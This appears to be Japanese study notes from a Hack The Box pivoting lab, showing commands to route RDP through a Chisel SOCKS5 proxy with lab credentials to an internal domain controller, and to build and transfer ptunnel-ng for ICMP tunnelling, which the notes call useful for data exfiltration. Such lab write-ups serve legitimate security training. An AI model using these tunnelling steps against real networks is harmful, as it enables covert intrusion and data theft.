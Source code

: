 proxychains の設定を変更
 - Chisel の SOCKS5 プロキシを使うために、proxychains.conf を編集
```sh
sudo nano /etc/proxychains.conf
```

末尾に足す
```sh
# SOCKS5 プロキシをローカルホスト（ポート 1080）に設定

socks5 127.0.0.1 1080
```

proxychains 経由で RDP に接続
- これで SOCKS5 トンネルを通じて、内部ネットワークの DC（172.16.5.19）へ接続できる！
```sh
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```


# SOCKSによるICMPトンネル
- ICMP トンネリングは、echo requestsとresponsesを含む ICMP packets内にトラフィックをカプセル化する
- **なんか互換性によっては動かないので他の手法を試す**

注意点
- ファイアウォールネットワーク内で ping 応答が許可されている場合にのみ機能する
- ファイアウォールネットワーク内のホストが外部サーバに ping を許可されている場合、そのトラフィックを ping エコー要求内にカプセル化して外部サーバに送信できる
- データの流出と外部サーバへのピボットトンネルの作成に非常に便利

ptunnel-ngツール
- Ubuntuサーバーと攻撃ホストの間にトンネルを作成する
- トンネルが作成されると、`ptunnel-ng client`を介してトラフィックをプロキシできるようになる
- ターゲットのピボットホストで`ptunnel-ng server`を起動できる

設定
- gitのクローン
- クローンしたら、ディレクトリに移動して autogen.sh を実行し、ビルド
```shell-session
snowyowl644@htb[/htb]$ git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng
sudo ./autogen.sh
```

./autogen.shが動かなかった時
```shell-session
sudo apt install automake autoconf -y
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
sudo ./autogen.sh
```

 ptunnel-ngをピボットホストへ転送
 - 攻撃ホストからピボットホストへ ptunnel-ng を転送する
```sh
snowyowl644@htb[/htb/ptunnel-ng]$ cd src
scp -r ptunnel-ng ubuntu@<ピボットホストのIP>:~/
```
